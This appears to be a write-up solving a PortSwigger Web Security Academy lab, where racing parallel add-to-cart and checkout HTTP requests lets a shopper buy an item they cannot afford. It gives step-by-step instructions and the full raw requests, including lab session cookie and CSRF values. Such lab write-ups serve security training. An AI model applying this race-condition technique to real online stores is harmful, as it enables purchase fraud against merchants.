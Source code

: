 Firstly, i tried purchasing item for 77$( i had 100$) then added target item to cart. But item just added and not purchased.

## Solution

1. Add item that costs less than 100$ to cart.
2. Intercept the request to add target item to cart(send to repeater).
3. Intercept puchase request(send to repeater).
4. Add to the group two requests above.
5. Send the group request in parallel(single packet attack). And you will successfully purchase the target item.


## Requests from repeater group

```
POST /cart HTTP/2
Host: 0a15007b04c2155f8159715e00df0018.web-security-academy.net
Cookie: session=NNhDWXExfGDNALmtQUOu5sFkMvv6DTOm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a15007b04c2155f8159715e00df0018.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: https://0a15007b04c2155f8159715e00df0018.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

productId=1&redir=PRODUCT&quantity=1
```

```
POST /cart/checkout HTTP/2
Host: 0a15007b04c2155f8159715e00df0018.web-security-academy.net
Cookie: session=NNhDWXExfGDNALmtQUOu5sFkMvv6DTOm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0a15007b04c2155f8159715e00df0018.web-security-academy.net
Referer: https://0a15007b04c2155f8159715e00df0018.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf=uhPmjTI87NtWSJxCP0f9aaBibDUqUX4W
```


